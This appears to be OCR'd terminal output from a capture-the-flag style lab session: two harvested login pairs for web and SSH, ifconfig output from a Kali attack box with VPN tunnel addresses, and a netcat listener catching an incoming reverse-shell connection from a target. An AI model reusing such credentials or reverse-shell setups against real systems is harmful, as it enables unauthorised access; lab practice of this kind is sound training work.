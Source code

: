 web po:password1
ssh shifu:badman

┌──(root㉿kali)-[~]
└─# ifconfig
eth0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 58:8a:5a:0e:50:e3  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8  bytes 480 (480.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 480 (480.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.16.39  netmask 255.255.254.0  destination 10.10.16.39
        inet6 fe80::aa89:abe9:808a:2f28  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:4::1025  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 102  bytes 6936 (6.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 118  bytes 4800 (4.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun1: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.4.62.198  netmask 255.255.128.0  destination 10.4.62.198
        inet6 fe80::d1d2:6a10:1d0c:4a7d  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 3  bytes 156 (156.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5  bytes 252 (252.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.43.77  netmask 255.255.255.0  broadcast 192.168.43.255
        inet6 fe80::8794:a1f9:c853:7678  prefixlen 64  scopeid 0x20<link>
        ether 44:03:2c:a3:57:1e  txqueuelen 1000  (Ethernet)
        RX packets 164485  bytes 149598021 (142.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 111446  bytes 21110501 (20.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# 
                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# nc -nlvp 1234                                          
listening on [any] 1234 ...
connect to [10.4.62.198] from (UNKNOWN) [10.10.131.192] 52684
                                                                                                                                                   